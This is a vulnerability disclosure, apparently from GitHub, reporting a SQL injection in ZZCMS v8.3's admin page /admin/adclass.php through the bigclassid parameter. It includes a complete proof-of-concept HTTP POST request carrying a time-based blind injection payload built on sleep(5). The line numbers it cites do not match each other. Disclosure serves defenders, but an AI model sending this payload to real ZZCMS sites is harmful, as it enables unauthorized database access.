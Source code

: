 ### ZZCMS V8.3 SQL injection in /admin/adclass.php line 48 via bigclassid parameter
## Vulnerability CMS and version
zzcms v8.3   Download link:http://www.zzcms.net/download/zzcms8.3.zip
## Triggering conditions
Log in to the CMS background access /admin/adclass.php page to trigger the vulnerability
## Vulnerability details
in CMS /admin/adclass.php line 264,bigclassid parameter value comes from $_REQUEST function that can bypass cms security filtering.
The value of the id parameter is finally brought to line 271 [/admin/adclass.php], and the final SQL statement is executed, resulting in SQL injection.
![](https://github.com/seedis/zzcms/blob/master/image/111.png)
## POC
```
POST /admin/adclass.php?dowhat=addsmallclass HTTP/1.1
Host: 192.168.30.216
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.30.216/admin/adclass.php?dowhat=addsmallclass&bigclassid=13%23
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
Cookie: bdshare_firstime=1537240796511; PHPSESSID=gdfrssod38corqta0eho4shcs4; UserName=test; PassWord=a3f1308bd904cf33127380012be39839
Connection: close
Upgrade-Insecure-Requests: 1

bigclassid=%E9%A6%96%E9%A1%B5'and (select* from(select sleep(5))b)%23&classname%5B%5D=test&action=add&add2=%E6%8F%90%E4%BA%A4
```
![](https://github.com/seedis/zzcms/blob/master/image/222.png)

